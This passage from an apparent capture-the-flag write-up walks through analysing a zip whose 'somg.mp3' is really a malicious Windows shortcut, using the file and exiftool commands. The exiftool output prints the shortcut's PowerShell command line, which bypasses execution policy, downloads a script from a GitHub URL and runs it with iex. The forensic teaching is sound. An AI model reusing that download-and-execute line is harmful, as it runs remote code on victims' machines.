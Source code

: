 Using the example YouTube URL provided, the site generated a download.zip file for us. This zip file contained two files:

```bash
┌──(tiny㉿kali)-[/mnt/…/THM/AoC/2024/day_01]
└─$ unzip download.zip 
Archive:  download.zip
 extracting: song.mp3                
 extracting: somg.mp3
```

`somg.mp3` is immediately suspicious due to the misspelling. File extensions provide helpful hints as what type of file we are working with.  In the end, the file metadata is the source of truth. The `file` command on *nix operating systems provides insight the type of file we actually have.

```bash
┌──(tiny㉿kali)-[/mnt/…/THM/AoC/2024/day_01]
└─$ file somg.mp3 
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Unicoded, MachineID win-base-2019, EnableTargetMetadata KnownFolderID 1AC14E77-02E7-4E5D-B744-2EB1AE5198B7, Archive, ctime=Sat Sep 15 13:14:14 2018, atime=Sat Sep 15 13:14:14 2018, mtime=Sat Sep 15 13:14:14 2018, length=448000, window=normal, IDListSize 0x020d, Root folder "20D04FE0-3AEA-1069-A2D8-08002B30309D", Volume "C:\", LocalBasePath "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

In the output from file, it is very obvious that this isn't an MP3 and is in fact a `.lnk` file which Windows uses for shortcuts. The file also appears to have references to PowerShell which is not normal for these files. We can explore the file more in-depth with ` exiftool`.

```bash
┌──(tiny㉿kali)-[/mnt/…/THM/AoC/2024/day_01]
└─$ exiftool somg.mp3 
ExifTool Version Number         : 13.00
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.2 kB
File Modification Date/Time     : 2024:10:30 14:32:52-06:00
File Access Date/Time           : 2024:12:01 12:05:47-06:00
File Inode Change Date/Time     : 2024:10:30 14:32:52-06:00
File Permissions                : -rwxr-xr-x
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 01:14:14-06:00
Access Date                     : 2018:09:15 01:14:14-06:00
Modify Date                     : 2018:09:15 01:14:14-06:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Drive Serial Number             : A8A4-C362
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```
